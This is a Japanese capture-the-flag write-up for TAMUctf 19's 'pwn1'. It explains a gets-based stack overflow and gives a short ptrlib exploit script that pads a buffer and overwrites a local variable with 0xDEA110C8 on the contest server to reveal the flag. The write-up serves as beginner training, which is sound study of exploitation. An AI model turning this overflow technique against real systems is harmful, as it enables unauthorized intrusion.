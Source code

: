 # [pwn 227pts] pwn1 - TAMUctf 19
32ビットでPIE有効、Full RELROです。
```
$ checksec pwn1
[*] 'pwn1'
    Arch:       32 bits (little endian)
    NX:         NX enabled
    SSP:        SSP disabled (No canary found)
    RELRO:      Full RELRO
    PIE:        PIE enabled
```
バイナリを実行するといくつか質問が来るのですが、答えは単にstrcmpでチェックしているのでIDAで解析すれば分かります。
ただ、最後の質問に答えた後にローカル変数が0xDEA110C8であればフラグが出力されます。
この変数は最初に0に設定されるので通常はフラグが表示されません。

しかし、質問の答えはgetsでローカル変数に入れられるので、Stack Overflowが存在します。
ということで、オーバーフローを利用して上述の変数を0xDEA110C8に変更しましょう。

IDAで見ると、バッファは`$rbp-0x3B`、比較対象の変数は`$rbp-0x10`に存在するので、バッファに0x2Bバイト適当な文字を入れた後に0xDEA110C8を入れれば良さそうです。

```python
from ptrlib import *

sock = Socket("pwn.tamuctf.com", 4321)
sock.recvuntil("name?")
sock.sendline("Sir Lancelot of Camelot")
sock.recvuntil("quest?")
sock.sendline("To seek the Holy Grail.")
sock.recvuntil("secret?")
payload = b"A" * 0x2b
payload += p32(0xDEA110C8)
sock.sendline(payload)

sock.interactive()
```

こんな感じでフラグが読めます。

# 感想
最もシンプルなバッファオーバーフローの問題です。
pwnを始めたばかりの方がpwntoolsなどを使う練習にちょうど良いでしょう。